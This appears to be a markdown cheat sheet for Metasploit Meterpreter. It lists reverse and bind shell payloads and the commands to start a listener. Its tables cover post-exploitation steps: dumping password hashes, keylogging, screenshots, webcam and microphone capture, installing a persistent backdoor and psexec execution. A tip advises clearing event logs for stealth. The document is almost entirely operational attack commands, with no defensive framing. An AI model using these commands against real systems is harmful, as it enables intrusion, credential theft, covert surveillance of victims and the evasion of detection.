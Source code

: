 
---

## 🧪 Common Meterpreter Payloads (used with MSFvenom)

| Payload                             | Description                                    |
| ----------------------------------- | ---------------------------------------------- |
| `windows/meterpreter/reverse_tcp`   | Connects back to attacker (reverse shell)      |
| `windows/meterpreter/bind_tcp`      | Opens a port and waits for attacker to connect |
| `linux/x86/meterpreter/reverse_tcp` | Meterpreter shell for Linux systems            |
| `android/meterpreter/reverse_tcp`   | Meterpreter for Android devices                |
| `osx/x64/meterpreter_reverse_tcp`   | macOS Meterpreter payload                      |

---

## 🔗 Start Metasploit Listener

```
msfconsole
```

```
use exploit/multi/handler
```

```
set payload windows/meterpreter/reverse_tcp
```

```
set LHOST 192.168.1.10
```

```
set LPORT 4444
```

```
run
```

## Meterpreter Command Reference

### System Info & Navigation

|Command|Description|
|---|---|
|`sysinfo`|Get system information|
|`getuid`|Display current user|
|`ps`|List running processes|
|`cd`, `ls`, `pwd`|Navigate the filesystem|
|`download <file>`|Download file from target|
|`upload <file>`|Upload file to target|
|`cat <file>`|Read file contents|
## Process & Session Management

|Command|Description|
|---|---|
|`migrate <pid>`|Migrate to another process|
|`background`|Background the session|
|`sessions -l`|List all active sessions|
|`sessions -i <id>`|Interact with a session|
## Privilege Escalation
|Command|Description|
|---|---|
|`getprivs`|List available privileges|
|`getsystem`|Attempt to elevate privileges|
|`run post/windows/gather/hashdump`|Dump password hashes (Windows)|
## Keylogging & Screenshots

|Command|Description|
|---|---|
|`keyscan_start`|Start keylogger|
|`keyscan_dump`|Dump keystrokes|
|`screenshot`|Take a screenshot|
## Persistence & Backdoors

|Command|Description|
|---|---|
|`persistence -X -i 30 -p 4444 -r <LHOST>`|Install persistent backdoor|
|`run persistence`|Run persistence script|
## Webcam & Microphone

|Command|Description|
|---|---|
|`webcam_list`|List available webcams|
|`webcam_snap`|Take webcam snapshot|
|`record_mic`|Record audio from mic (if supported)|
## Fileless Execution
```
use exploit/windows/smb/psexec
```

📌 Tips

- Always migrate to a stable process (e.g., explorer.exe)
- Use clearev to remove event logs (stealth)
- Combine with meterpreter scripts or post modules for automation

## Exit and Cleanup

```
exit -y
```
























